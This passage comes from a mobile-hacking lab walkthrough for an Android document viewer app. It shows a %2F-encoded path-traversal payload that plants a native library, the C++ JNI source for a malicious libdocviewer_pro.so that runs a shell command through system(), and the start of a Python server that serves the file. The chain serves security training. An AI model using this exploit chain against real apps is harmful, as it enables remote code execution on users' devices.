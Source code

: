 We need to traverse back to root and then append the new path at the end:

```
../../../../data/data/com.mobilehackinglab.documentviewer/files/native-libraries/x86_64/libdocviewer_pro.so
```

Finally, replace all the `/` with `%2F`:

```
..%2F..%2F..%2F..%2Fdata%2Fdata%2Fcom.mobilehackinglab.documentviewer%2Ffiles%2Fnative-libraries%2Fx86_64%2Flibdocviewer_pro.so
```

<br />

<br />

**JNI**

write the C++ code that will trigger the RCE vulnerability and compile it into a .so file.

```c++
#include <jni.h>
#include <string>
#include <cstdlib>

extern "C" JNIEXPORT jstring JNICALL
Java_com_example_docviewer_1pro_MainActivity_stringFromJNI(
        JNIEnv* env,
        jobject /* this */) {
    std::string hello = "Hello from C++";
    return env->NewStringUTF(hello.c_str());
}

extern "C" JNIEXPORT void JNICALL
Java_com_mobilehackinglab_documentviewer_MainActivity_initProFeatures(
        JNIEnv* env,
        jobject /* this */) {

    system("touch /data/data/com.mobilehackinglab.documentviewer/files/PoC.txt");


}
```

Note: You must include a method called `initProFeatures` since this is what the Java code will execute on the native library

<br />

Then generate the apk file from android studio and decompile it with `apktool` to get the `libdocviewer_pro.so` file in the `lib/x86_64/` Directory. 

The libdocviewer_pro.so file is [here](/assets/img/mhl/DocumentViewer/libdocviewer_pro.so)

<br />

```python
from http.server import BaseHTTPRequestHandler, HTTPServer
import os

SO_FILE_PATH = r"C:\\Users\\{user.name}\\Desktop\\libdocviewer_pro.so"

class SORequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        
        normalized_path = os.path.normpath(self.path)
        
        if normalized_path.endswith("libdocviewer_pro.so"):
            if os.path.exists(SO_FILE_PATH):
```